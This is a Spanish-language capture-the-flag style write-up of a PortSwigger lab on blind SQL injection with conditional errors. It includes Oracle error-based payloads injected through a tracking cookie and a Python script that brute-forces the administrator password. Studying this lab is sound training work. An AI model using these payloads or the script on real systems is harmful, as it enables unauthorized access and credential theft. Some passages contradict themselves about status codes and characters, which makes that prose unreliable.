 
---

# Guía práctica: SQLi Blind — respuestas condicionales

---

## Laboratorio PortSwigger

Para ilustrar con ejemplos reales usaremos el laboratorio gratuito de [PortSwigger](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors):

`https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`

Todas las pruebas que se muestran a continuación se realizaron contra la URL provista por ese laboratorio.

---

## Confirmación de la vulnerabilidad

**Resumen:** en este laboratorio hay una vulnerabilidad de **blind SQL injection**. La aplicación utiliza una cookie de tracking para analítica y construye una consulta SQL con el valor de la cookie enviada. Los resultados de la consulta **no se devuelven** y la aplicación **no cambia** su respuesta según si la consulta devuelve filas. Si la consulta provoca un error, la aplicación devuelve un **mensaje de error personalizado**. La base de datos contiene una tabla `users` con columnas `username` y `password`. Nuestro objetivo es explotar la inyección ciega para descubrir la contraseña del usuario `administrator`.

**Paso práctico (comprobación rápida):**

1. Intercepta una petición con Burp Suite (o abre DevTools).
    
2. Localiza la cabecera `Cookie:` y busca la cookie de tracking usada por la aplicación (el laboratorio indica que hay una cookie de tracking para analítica).
    
3. Haz una prueba sencilla: modifica temporalmente el **valor** de esa cookie añadiendo una comilla simple (`'`) al final y reenvía la petición.    
    `<cookie_name>=valorOriginal'`
    
4. Observa la respuesta:
    
    - Si aparece el **mensaje de error personalizado**, eso confirma que el valor de la cookie se está incluyendo en una consulta SQL y la entrada es inyectable.
        
    - Si **no** aparece un error, **no descartes** la inyección: el laboratorio especifica que la aplicación no cambia su respuesta cuando la consulta devuelve filas (es _blind_). En ese escenario hay que proceder con técnicas ciegas (time‑based o provocar errores condicionales) para inferir verdadero/falso y extraer la contraseña.
        

> Nota: la ausencia de un error explícito no descarta SQLi. En _blind SQLi_ la aplicación suele no devolver el resultado; en su lugar distinguimos TRUE/FALSE por **tiempos de respuesta** (time‑based) o por provocar un **error condicional** que solo ocurra cuando una condición SQL se cumple. El hecho de que la aplicación devuelva un mensaje personalizado ante errores es una pista útil: podemos aprovechar tanto payloads que provoquen errores controlados como payloads que introduzcan retrasos para diferenciar condiciones.

**Evidencia visual:**

![BupSuite](./Imágenes/burp_11.png)

![BupSuite](./Imágenes/burp_12.png)

![BupSuite](./Imágenes/burp_13.png)

![BupSuite](./Imágenes/burp_14.png)

Al darnos error en una query propia de [MySQL](MySQL.md), debemos probar para otro tipo de base de datos. Al probar con una query de [Oracle](Oracle.md) vemos que obtenemos el código de estado `200` en lugar del `500` que obtenemos cuando la query no es correcta. Entonces bajo este mismo principio booleano, podemos extraer la información de la base de datos de forma similar a como lo hacíamos en [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md).

![BupSuite](./Imágenes/burp_15.png)


---

## Explotación

Algo que también vemos es que podemos hacer doble comilla ( `''`) y la query se cierra devolviendo un código de estado `200`. Entonces podemos concatenar query en Oracle con  `||<query>||`. Empezamos confirmando la siguiente secuencia lógica

```SQL
'||(select 'a' from dual)||'
```

![BupSuite](./Imágenes/burp_16.png)

Entonces podemos generar una condición `select case when (<condición>) then <error> else '' end` de tal modo que cuando la condición sea válida como en el primer ejemplo que es `when(1=1)` entraremos en el `then` y como su valor es erróneo, pues dividimos 1 entre 0 y loco convertimos a strings, se producirá el error con el código de estado `500`.

```SQL
'||(select case when(1=1) then to_char(1/0) else '' end from dual)||'
```

![BupSuite](./Imágenes/burp_17.png)

Sin embargo, cuando la condición es falsa como `when(2=1)` entramos en el `else` que es una cadena vacía (que no ejecute nada), y debería devolvernos un código de estado `200` como es el caso.

```SQL
'||(select case when(2=1) then to_char(1/0) else '' end from dual)||'
```

![BupSuite](./Imágenes/burp_18.png)

Si apuntamos a la tabla `users` y a su columna `username` donde sabemos que hay un valor para username que es `administrator`, obtenemos la misma lógica, según en el apartado de la condición en la que entremos obtendremos un código u otro.

```SQL
'||(select case when(2=1) then '' else to_char(1/0) end from users where username='administrator')||'
```

![BupSuite](./Imágenes/burp_19.png)

Ahora la condición que aplicamos es `when(lenght(password)=20`, es decir, sí la longitud del valor de contraseña es igual a 20 entonces entraremos en el `then to_char(1/0)`  y obtenemos un código `500`, si cambiamos la longitud veremos que entramos en el `else` y obtenemos un `500` como código de estado. Como vimos en  [SQLi Blind conditional responses](SQLi%20Blind%20conditional%20responses.md), el principio es el mismo. Tenemos una forma de poder extraer información tomando como referencia de si las querys utilizadas aplican o no,  al código de estado para este caso de *inyecciones a ciegas basadas en errores condicionales*.

```SQL
'||(select case when(length(password)=20) then to_char(1/0) else '' end from users where username='administrator')||'
```


Hacemos una comprobación de lógica booleana. Como el valor del primer carácter `username,1,1` para el usuario `administrator` es `'a'` y esto es correcto entraremos en el `then` y obtenemos un código de estado `500`. Con esta lógica podemos apuntar al valor de `password` del usuario `administrator` y tratar de exfiltrar su información.

```SQL
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```


Si manualmente buscamos el primer carácter para la contraseña de administrator, vemos que (solo para mí caso) es `f`. Con la confirmación de que esta query funciona, podemos crear un script que nos automatice este proceso.

```SQL
'||(select case when substr(password,1,1)='l' then to_char(1/0) else '' end from users where username='administrator')||'
```

![BupSuite](./Imágenes/burp_22.png)

---

## Script

```python
#!/usr/bin/env python3

from pwn import *
import requests, sys, signal, string
import time

def def_handler(sig, frame):
    print(f"\n[!] Saliendo...\n")
    p1.failure("Ataque de fuerza bruta detenido")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


p1 = log.progress("SQLi")

characters = string.ascii_lowercase + string.digits


def makeSQLi():

    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

    password = ""

    p2 = log.progress("Password")

    for position in range (1, 21):
        for character in characters:
            cookies = {
                    'TrackingId': f"SB3RVC2QjsIChXzV'||(select case when substr(password,{position},1)='{character}' then to_char(1/0) else '' end from users where username='administrator')||'",
                    'session': "yhJwbXELgF68qoqh6ofgeLVMmNO3SjFE"
            }

            p1.status(cookies["TrackingId"])

            r = requests.get("https://0ac6007f045a62fb805e08d800740038.web-security-academy.net/", cookies=cookies)

            if r.status_code == 500:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeSQLi()
```

**Nota:** importante apuntar al código de estado erróneo (`500` en este caso) ya que muchas lógicas de consultas devuelven un estado `200` y puede confundir al script.

Resultado:

```bash
[→] Password: lyk113ggndoukb19b5ce
```